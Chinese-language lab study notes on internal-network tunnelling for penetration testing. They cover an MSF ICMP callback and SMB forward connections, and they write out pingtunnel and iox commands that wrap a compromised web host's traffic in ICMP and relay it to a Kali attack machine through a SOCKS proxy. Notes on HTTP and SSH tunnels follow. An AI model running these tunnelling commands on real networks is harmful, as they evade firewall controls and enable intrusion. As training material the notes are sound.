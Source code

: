   MSF icmp实现上线。msf的dns过时，已下架。

   smb开放着，利用smb进行通讯，为入站规则

![1732529462918](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942059.png)

可以通过smb来正向连接来获取权限。这里属于横向移动知识点，后期在学

### 内网穿透:

   这里的状况（防火墙策略）是 web机器是只让web进，icmp出。隧道技术就是有一些放的口子（有一些出站的规则），这种一般都是内网穿透。演示一款工具：iox       pingtunnel                                                                                                   2222->4455->5566                   pingtunnel -type client -l 127.0.0.1:2222 -s 192.168.139.128 -t 192.168.139.128:4455 -tcp 1 -noprint 1 -nolog 1 -key 000000           （这里的key是防止别人也连接到你打pingtunnel，所以有一个key）    192.168.139.141为kali   127.0.0.1web机器，因为web机的防火墙策略。所以这里命令就是将web机的2222端口的tcp协议的流量封装成icmp协议给发送到192.168.139.141:4455（kali的4455端口），在kali(攻击机)./pingtunnel -type server -noprint 1 -nolog 1 -key 000000接收目标发过来的icmp流量数据，然后因为是发到自己的4455端口，所以./iox proxy -l 4455 -l 5566  用iox代理工具将4455转至5566端口。在web机上还要建立SockS节点绑定2222端口----相当于创建一个2222端口，他才能将icmp流量数据转发出去：iox.exe proxy -r 127.0.0.1:2222。类似上面的socks端口创建，因为这里目标机的防火墙策略特殊，所以采用这种方法创建socks节点。后面就一样用代理Profiex连接socks，从而实现与目标机通讯。

将web本地2222端口的TCP封装IMCP给能通讯的kali：-----已经将iox和pingtunne上传目标机了

![1732531243372](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942060.png)

接收客户端传递的ICMP：

![1732531600655](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942061.png)

端口转发，创建有socks5协议 ：

![1732531373768](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942062.png)

再在web上开放一个2222端口：

![1732535373473](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942063.png)

最后效果就是在本机能访问到目标主机，之间建立通讯。

# 174：隧道技术 http ssh

ssh目前只能通讯，不能上线，目前没有c2工具能利用ssh上线。     [192.168.2.11](http://192.168.2.11/) 192.168.139.222 都是web机。

### http:

http隧道上线一般意义不大，能通过http上线就能通过正反向上线

![1732609043452](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942064.png)

在情况1下，无法通过c2上线控制web机。因为入站只有web端口：80或者443，这两个端口都被占用，所以只能通过webshell工具来控制web机，而且也没有办法通过Web机控制sql，因为web的出站被限制。所以就需要通过隧道技术来实现让sql跟web机连接        这里是通过Web来建立隧道获取sql机上的有价值信息

  看防火墙配置，这里本机只能访问192.168.139.222       2.11 和 2.22 都访问不到     同一个网段好像可以不用看防火墙就能访问，不在同一个网段就得看防火墙策略。

eg: 192.168.139.1 可以访问192.168.139.2     如果192.168.139.2还有一个网段是192.168.2.2  那么192.168.139.1访问192.168.2.2 是访问不到的
